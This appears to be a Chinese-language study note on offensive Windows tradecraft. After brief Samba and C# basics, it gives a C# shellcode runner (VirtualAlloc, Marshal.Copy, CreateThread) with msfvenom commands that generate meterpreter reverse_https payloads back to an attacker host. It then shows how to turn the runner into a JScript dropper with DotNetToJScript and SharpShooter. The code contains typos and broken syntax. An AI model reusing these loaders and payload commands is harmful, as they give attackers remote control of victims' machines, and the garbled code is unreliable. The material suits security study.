 ## 安装samba
```
apt install samba
systemctl start smbd
systemctl start nmbd
```

## C# Helloworld
Visio Studio 2019
选择C# .NET Framework
```C#

namespace ConsoleApp1
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WirteLine("Hello World");
		}
	}
}

```

## JS to C# 
ref: DotNetToJscript-Master

## Win32 api call Ffrom C# 用C#调用win32api
ref: pinvoke

Message Box
```C#
using System;
..
..
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
	class Program
	{
		[DllImport("user32.dll",CharSet = CharSet.Auto)]
		public static extern int MessageBox(IntPtr hWnd,String text,String caption,int options);
		static void Main(string[] args)
		{
			MessageBox(IntPtr.Zero,"This is my text","This is my caption",0);
		}
	}
}
```

## ShellCode Runner From C# 
```c#
name space ConsoleApp1
{
	class Program
	{
		[DllImport("kernel32.dll",SetLastError = true,ExactSpelling=true)]
		static.extern IntPtr VirtualAlloc(IntPtr lpAddress,uint dwsize,uint flAllocationType,uint flProtect)
		
		[DllImport("kernel32.dll")]
		static extern UInt32 CreateThread(IntPtr lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress, Int .... )
		
		【DllImport("kernel32.dll")
		static extern Uint32 WaitForSingleObject(IntPtr)
		
		static void Main(string[] args)
		{
		
		byte[] buf = new byte[/*shellcode长度*/] {/*shellcode*/} ; // msfvenom -p windows/x64/meterpreter/reverse_https Lhost= Lport=443 -f csharp
		
		int size =buf.Length;
		IntPtr addr = VirtualAlloc(IntPtr.Zero,0x1000,0x3000,0x40);
		Marshal.Copy(buf,0,addr,size);
		IntPtr hThread=CreateThread(IntPtr.Zero,0,addr,IntPtr.Zero,0,IntPtr.Zero);
		WaitForSingleObject(hThread,0xFFFFFFFF);
		}		
	}
}
```

## Jscript Shellcode Runner 
使用前面章节的c# 转JS
```C#
using System;
Using System.Diagnostics; 


```
输出成runner.js
```cmd
DotNetToJScript.exe ExampleAssembly.dll --lang=JScript --ver=v4 -o runner.js
```


## SharpShooter
使用脚本生成js
```bash
#下载SharpShooter

git clone https://github.com/mdsecactivebreach/SharpShooter.git
pip install -r requirements.txt

#生成shellcode

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 -f raw -o /var/www/html/shell.txt

python SharpShooer.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output ../../../home/kali/data/test

```

